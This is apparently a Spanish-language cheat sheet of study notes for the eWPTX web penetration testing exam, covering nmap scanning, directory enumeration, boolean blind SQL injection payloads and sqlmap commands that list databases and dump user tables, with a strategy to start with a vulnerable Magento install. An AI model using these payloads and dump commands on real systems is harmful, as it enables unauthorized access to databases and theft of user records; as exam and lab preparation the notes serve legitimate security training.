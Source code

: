 # eWPTX
---
## Escaneo de puertos
![image](https://github.com/user-attachments/assets/02a7281d-02c7-43ec-afe6-ece2eecf0317)

nmap -n -Pn -p- --open -vvv -T5 [IP] 

## Enumeración
![image](https://github.com/user-attachments/assets/1d95388b-e208-4b30-8e2c-ad1943a44dee)

dirb http://172.17.0.2/ [rockyou, common, big] -N 401 (Ignora un método) -r (No es recursivo)
##
dirsearch -u http://[IP]/ -w [WORDLIST] -t 16 -e php,txt -f (NO ESTÁ DISPONIBLE EN EL EXAMEN)

---

## 💉 Inyección SQL (SQLi): Blind SQLi
En el examen: MAGENTO ES VULNERABLE A SQLi

En las inyecciones a ciegas, el resultado no se ve en la pantalla (son deductivas... a partir del comportamiento de la aplicación)
### BOOLEAN
Tiene un comportamiento verdadero o falso (0 o 1)

|User: |' OR 1=1-- -|
|----|-----|
|Pass: |' OR 1=1-- -|

|User: |' OR (substring(database(),1,1))='p' -- -|
|-------|-------------|
|Pass: |' OR (substring(database(),1,1))='p' -- -|

|User: |' OR (ascii(substring(database(),1,1)))='45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))='45' -- -|

|User: |' OR (ascii(substring(database(),1,1)))>'45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))>'45' -- -|

Se puede automatizar con el BurpSuite:

Intruder --> payloads (numero) --> 32-126 

settings --> Redirections (always)


---
### TIME
Tiempo de carga (¿Cuanto demora en carga una página web?)


### OOB
Si se puede lelvar la info fuera del servidor
## 

### SQLMAP
--technique=BTU

--risk=

1: Payload a nivel de select y uniones

2: Payload de tiempo. Por ejemplo SLEEP.

3: Payload basados en BOOLEAN en OR

--level=

1: inyecciones en metodos GET/POST

2: inyecciones en las cookies

3: inyecciones en los headers: user-agent, referer

4: inyecciones todos los headers

5: inyecciones en todos los parametros sin excepción

### Boolean

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 --current-db --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB --tables --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB -T usuarios --dump --dbms=mysql

### Time

- sqlmap -r request_time.txt -p descripción --technique=T --risk=3 --level=3 --current-db --dbms=mysql --flush-session

### Orden para usar SQLMAP

- sqlmap -r request.txt
- sqlmap -u 'http://localhost/' -p idmagento(parameter) --dbs
- sqlmap -u 'http://localhost/' -p idmagento(parameter) --current-db
- sqlmap -u 'http://localhost/' -p idmagento(parameter) -D magento --tables
- sqlmap -u 'http://localhost/' -p idmagento(parameter) -D magento -T user --start=1 --stop=10

---

## ♟️ Estratégia
1. Iniciar por el CMS MAGENTO
   
   - Version: [IP]/magento/magento_version (Buscar vulnerabilidad de la versión)
